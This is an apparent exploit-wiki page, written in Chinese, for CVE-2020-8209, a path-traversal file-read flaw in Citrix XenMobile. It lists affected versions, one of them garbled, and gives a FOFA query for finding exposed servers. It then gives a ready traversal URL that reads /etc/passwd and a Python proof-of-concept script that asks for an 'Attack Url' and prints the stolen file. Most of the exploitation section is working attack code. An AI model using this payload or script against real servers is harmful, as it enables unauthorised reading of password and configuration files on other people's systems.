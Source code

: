 # Citrix XenMobile 任意文件读取 CVE-2020-8209

## 漏洞描述

 XenMobile是Citrix开发的企业移动性管理软件。该产品允许企业管理员工的移动设备和移动应用程序。该软件的目的是通过允许员工安全地在企业拥有的和个人移动设备及应用程序上工作来提高生产率。 CVE-2020-8209，路径遍历漏洞。此漏洞允许未经授权的用户读取任意文件，包括包含密码的配置文件

## 影响版本

> [!NOTE]
>
>  RP2之前的XenMobile服务器10.12
>
>  RP4之前的XenMobile服务器10.11
>
>  RP6之前的XenMobile服务器10.1010.9
>
>  RP5之前的XenMobile服务器

## FOFA

> [!NOTE]
>
> title="XenMobile"

## 漏洞复现

访问 **http://xxx.xxx.xxx.xxx/jsp/help-sb-download.jsp?sbFileName=../../../etc/passwd** 可以成功下载**/etc/passwd**文件

![](image/xen-1.png)

## 漏洞利用POC

```python
#!/usr/bin/python3
#-*- coding:utf-8 -*-
# author : PeiQi
# from   : http://wiki.peiqi.tech

import hashlib
import sys
import requests
import random
import re
import urllib3

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mVersion: Citrix XenMobile                                          \033[0m')
    print('+  \033[36m使用格式: python3 CVE-2020-8209.py                                  \033[0m')
    print('+  \033[36mUrl    >>> http://xxx.xxx.xxx.xxx                                 \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/jsp/help-sb-download.jsp?sbFileName=../../../etc/passwd"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36"
    }
    try:
        urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
        response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=10)
        print("\033[32m[o] 含有CVE-2020-8209漏洞，成功读取/etc/passwd\033[0m\n{} ".format(response.text))
    except:
        print("\033[31m[x] 漏洞利用失败 \033[0m")



if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >		>> \033[0m"))
    POC_1(target_url)

```

![](image/xen-2.png)